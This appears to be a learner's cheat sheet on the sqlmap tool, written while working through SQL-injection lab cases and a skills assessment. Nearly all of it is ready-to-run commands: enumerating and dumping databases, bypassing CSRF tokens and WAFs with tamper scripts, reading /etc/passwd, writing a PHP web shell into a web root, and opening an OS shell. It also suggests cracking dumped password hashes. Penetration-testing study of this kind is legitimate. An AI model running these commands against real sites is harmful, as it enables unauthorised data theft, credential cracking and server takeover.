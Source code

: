 # Introduction

SQLmap is a penetration testing tool for taking over relational databases via SQLi flaws.

sqlmap -hh to get started

When looking for SQL injection points, look at every request in the proxy. Look for where SQL queries are happening (is an ID being referenced?)

# Running SQLmap on a HTTP request

We can save a GET request with the filled parameters, (either by grabbing it from burp HTTP history, or through copy as cURL)

```sqlmap -r req.txt```
```sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'```

Basic line of attack: (we enumerate the basic DB info, then the tables, then grab from those tables)

```
sqlmap -r case2.txt --banner --current-user --current-db --is-dba
sqlmap -r case2.txt --tables -D testdb
sqlmap -r case2.txt --dump -T tableName
```

SQLmap in a cookie:
```
sqlmap -r case3.txt --cookie='id=1' -p id --level=2
```
SQLmap in JSON post

```
POST /case4.php HTTP/1.1

Host: 138.68.139.152:32561

User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://138.68.139.152:32561/

Connection: close

Upgrade-Insecure-Requests: 1

Content-Length: 9



{"id": 1}
```
```
sqlmap -r case4.txt --data="id=*" -p id --level=2
```

# Handling Errors

Should enable ```--parse-errors```, and use ```-t traffic.txt``` to auto parse errors and save traffic to a file. We can also use ```-v``` for verbositiy and also send it through a proxy (to watch thetraffic)

# Attack Tuning

We can use ```--prefix and --suffix``` to cover special cases (like needing a comment at the end).

```
--prefix="%'))" --suffix="-- -"
```

Level/Risk determines the vectors/boundries and how risky you want it to be.

```--level=5 -risk=3```, risk goes from 1-3, level goes from 1-5.. Level refers to how many different payloads are being used, and risk is how aggressive the attack is.

We can also filter with advanced options, looking for data in the response.

```
--code
--titles
--string
```

For UNION injection tuning, we can specify columns and characters, like so:
```
 --union-cols=17
 --union-char='a'
```

In cases where SQLmap's null columns are invalid, or it doesn't know the number of columns.

```
sqlmap -u 'http://138.68.139.152:32561/case6.php?col=id' --prefix '`)' --batch --dump -D testdb -T flag6
```

Case 6 very tricky. We had to use the URL instead of a request. Always try that if there's issues.

# Database Enumeration

Lots of useful switches, as seen in the previous commands (--banner, --current-user, --current-db, --passwords, and so on)

```--dump-all``` will generally dump everything, and should be used with ```--exclude-sysdbs``` to not dump system DBs, like so

```
sqlmap -u 'http://138.68.139.152:32561/case1.php?id=1' --dump-all --exclude-sysdbs
```

```--schema``` switch will dump the schema, and we can also search for certain tables like so:

```
sqlmap -u "http://www.example.com/?id=1" --search -T user
```

We can also search for the name of a column with -C

```
sqlmap -u 'http://138.68.139.152:32561/case1.php?id=1' --search -C style
```

Can use crackstation to crack user hashes.

# Bypassing Web Application Protections

SQLmap can auto detect and handle CSRF tokens usually.

We can also pass python code, to automatically handle data (such as hashing it).

```
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI
```

SQLmap should automatically try to detect and bypass WAF, and we can also use ```--random-agent``` to bypass a user-agent blacklist.

```
sqlmap -u "http://157.245.39.81:30393/case8.php" --data='id=1&t0ken=rJJUjtMUJxUQ140xmfd1INcS6YAq6uX4CuRj6qVQ' --level=5 --risk=3 -csrf-token="t0ken" -v -T flag8 --dump
```

To bypass CSRF with a token, see above

To add a random token, like UUID, do so:

```
sqlmap -u "http://157.245.39.81:30393/case9.php?id=1&uid=2996565965" -v -T flag9 --randomize=uid -v 5 --dump
```

To bypass an aggressive WAF:

```
sqlmap -r case11.txt -T flag11 --dump --tamper=between
```

# OS Exploitaton

If we have the DBA prilvedge, we can trivially escalate to a basic user.

```
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
```

```
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
sqlmap -u "http://www.example.com/?id=1" --os-shell
sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```

Try alternate technqies to spawn an OS shell.

# Skills Assessment

```
sqlmap -r skills-assessment.txt --data="id=*"  --current-db --tamper=between
```

We had to add the ```--tamper=between``` to get it to work